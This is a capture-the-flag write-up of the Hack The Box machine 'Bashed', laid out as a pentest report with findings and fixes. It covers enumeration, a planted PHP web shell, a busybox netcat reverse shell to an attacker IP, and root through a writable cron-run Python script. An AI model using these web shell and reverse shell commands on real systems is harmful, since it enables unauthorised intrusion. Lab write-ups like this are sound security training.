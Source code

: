 ```yaml
---
title: "HTB | BASHED"
date: 2024-09-09 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```



![img-description](/assets/img/HTB/htb.png)

## Initial Access - Hidden Web Directory Leads to Web Shell then Full Reverse Shell

**Vulnerability Explanation:** A hidden directory on the port 80 hosts a web shell. A reverse shell is obtainable by creating a malicious php web shell in the 'uploads' directory and using it to perform a reverse shell back to the attacker machine.

**Vulnerability Fix:** Remove the hidden web page from the web server. 

**Severity:** Critical

**Steps to reproduce the attack:** Christian began with an nmap port scan and discovered port 80 open. Port 80 is hosting a web server and with further enumeration, a hidden directory 'dev' was found. Inside the directory is a web shell that doesn't have full functionality, however, since the user has write access to the 'uploads' directory, a full reverse shell can be obtained.  

**Port Scan Results**

**TCP:** 80

**UDP:** NA

Use nmap to scan the target for open ports.

TCP port 80 was discovered.

```shell
sudo nmap -p- -T5 -vvv -oN nmap.initial 10.10.10.68
```

We can see that the port is hosting a webpage with something about 'phpbash'.

![img-description](/assets/img/HTB/BASHED/1.png)
![img-description](/assets/img/HTB/BASHED/2.png)

Use gobuster to enumerate for hidden directories. A few seem interesting. Mainly 'dev' and 'uploads'.

```shell
gobuster dir -u 10.10.10.68 -w /usr/share/wordlists/dirbuster/dirctory-lists-lowercase-2.3-medium.txt
```

![img-description](/assets/img/HTB/BASHED/3.png)

The 'dev' contains something called 'phpbash.php'. It turns out that 'phpbash.php' is a web shell for pentesting.

![img-description](/assets/img/HTB/BASHED/4.png)
![img-description](/assets/img/HTB/BASHED/5.png)

Since it doesn't have much functionality, we will need to upgrade to a full reverse shell. Move into the 'uploads' directory and create another web shell.

```shell
echo '<?php system($_GET["cmd"]); ?>' > test.php
```

![img-description](/assets/img/HTB/BASHED/6.png)

Navigate to the newly created web shell in the 'uploads' directory. We can now establish a full reverse shell by creating a netcat listener on our host attacker machine and entering the reverse shell command in the url.

```shell
nc -nlvp 4444
```

```shell
busybox nc 10.10.16.2 4444 -e /bin/bash
```

![img-description](/assets/img/HTB/BASHED/7.png)
![img-description](/assets/img/HTB/BASHED/8.png)
![img-description](/assets/img/HTB/BASHED/9.png)

We not have initial access to the target machine as user 'www-data'.

## Privilege Escalation - Lateral Movement + Timed Process by Root user leads to Root Access

**Vulnerability Explanation:** User 'www-data' has access to use any command as user 'scriptmanager'. User 'scriptmanager' has write access to a file name 'test.py'. This file is executed by the root user on a timer and replacing it with a malicious file containing a reverse shell results in a root shell.

**Vulnerability Fix:** Remove the sudo privileges from user 'www-data' if not needed. Remove the automated process execution of file 'test.py' if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Christian enumerated what sudo commands user 'www-data' is able to perform on the target machine. It is able use all commands for user 'scriptmanager' which also means being able to get a bash shell. This user is able to access the 'scripts' directory and has write access to 'test.py'. Looking at the 'test.txt' it looks like the root user is executing the test.py file. Replacing it with a python reverse shell, Christian was able to gain a root shell.

Upgrade the shell.

```shell
python3 c 'import pty;pty.spawn("/bin/bash")'
```

Looking at the sudo privileges on the user. We can see it has privileges to run any command as user 'scriptmanager'. Gain a shell as 'scriptmanager'.

```shell
sudo -l
```

```shell
sudo -u scriptmanager /bin/bash
```

![img-description](/assets/img/HTB/BASHED/10.png)

In the root directory, there is an interesting directory called 'scripts' that we weren't able to access before. Moving into the directory we see 2 interesting files: test.py and test.txt.

![img-description](/assets/img/HTB/BASHED/11.png)
![img-description](/assets/img/HTB/BASHED/12.png)

The root user is creating the test.txt file by running the test.py file. Start a netcat listener on the attacker machine. Replace test.py with a malicious python reverse shell.

```shell
nc -nlvp 1234
```

![img-description](/assets/img/HTB/BASHED/13.png)
![img-description](/assets/img/HTB/BASHED/14.png)

We now have root access to the target machine.

## Post Exploitation

Since this is a CTF the objective is only to retrieve the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.